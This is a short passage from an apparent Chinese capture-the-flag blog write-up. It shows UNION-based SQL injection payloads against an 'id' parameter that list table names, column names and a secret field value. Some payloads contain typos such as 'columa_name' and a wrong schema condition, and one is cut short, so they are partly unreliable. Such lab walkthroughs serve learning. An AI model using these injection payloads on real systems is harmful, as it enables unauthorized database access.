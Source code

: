     ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where column_name=database()--+
    
        

得到表

    ?id=-1' union select 1,2,group_concat(columa_name) from information_schema.columas where column_name='bjtjs3kies'--+
    
        

得到字段

    secret_W6E8 from bjtjs3kies--+
    
        

得到字段值。

后面的挑战就不写了。通过参考了别人的博客，终于是刷到这了。

参考博客：-
[https://blog.csdn.net/weixin\_43252204/article/details/107551358](https://blog.csdn.net/weixin_43252204/article/details/107551358)

[查看原网页: blog.csdn.net](https://blog.csdn.net/qq_45584159/article/details/111054882)



# Quote
